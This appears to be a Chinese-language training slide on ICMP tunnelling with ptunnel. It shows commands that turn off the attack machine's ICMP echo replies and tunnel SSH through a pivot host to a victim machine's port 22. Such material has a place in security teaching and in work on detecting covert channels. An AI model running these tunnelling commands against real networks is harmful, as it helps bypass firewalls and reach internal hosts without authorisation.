

# ICMP隧道工具
通过 ICMP 隧道连接SSH（Ptunnel）
在攻击机上：
1、将自身的ICMP响应关闭
2、转发指定端口

sudo ptunnel -p 192.168.152.116 -lp 6666 -da 172.16.237.5 -dp 22 -x 123.com (密码)
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1    //关闭系统的icmp应答，恢复设置为0
sudo ptunnel -p 跳板IP地址 -lp 指定本地的监听端口 -da 受害机的ip -dp 受害机的端口 -x 指定连接的验证密码